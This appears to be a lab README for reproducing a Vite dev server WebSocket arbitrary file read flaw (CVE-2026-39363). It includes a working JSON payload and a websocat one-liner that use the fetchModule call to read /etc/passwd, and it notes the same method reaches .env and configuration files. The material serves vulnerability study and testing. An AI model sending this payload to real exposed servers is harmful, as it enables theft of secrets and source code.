


# Vite Development Server WebSocket Arbitrary File Read (CVE-2026-39363)

[中文版本(Chinese version)](README.zh-cn.md)

Vite is a modern frontend build tool that provides a faster and leaner development experience for modern web projects. It consists of two major parts: a dev server with Hot Module Replacement (HMR) capability, and a build command that bundles your code with Rollup.

In versions of Vite from 6.0.0 before 6.4.2, from 7.0.0 before 7.3.2, and from 8.0.0 before 8.0.5, the file system access control enforced for HTTP requests (such as `server.fs.allow` and `server.fs.deny`) is not applied to the `fetchModule` method exposed via the dev server's WebSocket. An attacker who can reach the WebSocket endpoint can invoke `fetchModule` through a custom `vite:invoke` event and combine the `file://` protocol with the `?raw` (or `?inline`) query parameter to read the contents of arbitrary files on the server as a JavaScript module string.

Only Vite dev servers explicitly exposed to the network (via the `--host` flag or the `server.host` configuration option) are affected, because the loopback-only default binding prevents remote attackers from reaching the WebSocket endpoint.

References:

- <https://github.com/vitejs/vite/security/advisories/GHSA-p9ff-h696-f583>
- <https://nvd.nist.gov/vuln/detail/CVE-2026-39363>

## Environment Setup

Execute the following command to start a Vite 7.3.1 development server:

```
docker compose up -d
```

After the server starts, you can access the Vite development environment at `http://your-ip:5173`.

## Vulnerability Reproduction

The vulnerability is triggered through the Vite HMR WebSocket endpoint, which uses the `vite-hmr` sub-protocol. By sending a custom `vite:invoke` event whose payload calls `fetchModule` with a `file://` URL ending in `?raw`, an attacker can retrieve arbitrary files as a JavaScript module string.

First, confirm that the dev server is running by visiting `http://your-ip:5173` in a browser. The default Vite landing page should load:



Then, open a WebSocket connection to `ws://your-ip:5173/` with the `vite-hmr` sub-protocol and send the following JSON payload. You can use any tool capable of sending raw WebSocket frames (for example `websocat`, a Python script using the `websockets` library, or a proxy such as Burp Suite or Yakit):

```
{"type":"custom","event":"vite:invoke","data":{"id":"send:0","name":"fetchModule","data":["file:///etc/passwd?raw"]}}
```

A one-liner with `websocat` looks like this:

```
echo '{"type":"custom","event":"vite:invoke","data":{"id":"send:0","name":"fetchModule","data":["file:///etc/passwd?raw"]}}' \
    | websocat -n1 --protocol vite-hmr ws://your-ip:5173/
```

The dev server replies with a `vite:invoke` response whose `result.code` field embeds the contents of `/etc/passwd` as the default export of a JavaScript module:


The same payload also works with `?inline` instead of `?raw`. By switching the target path you can read any file the Node.js process has permission to access — for example application source code, configuration files, or environment files such as `.env`.


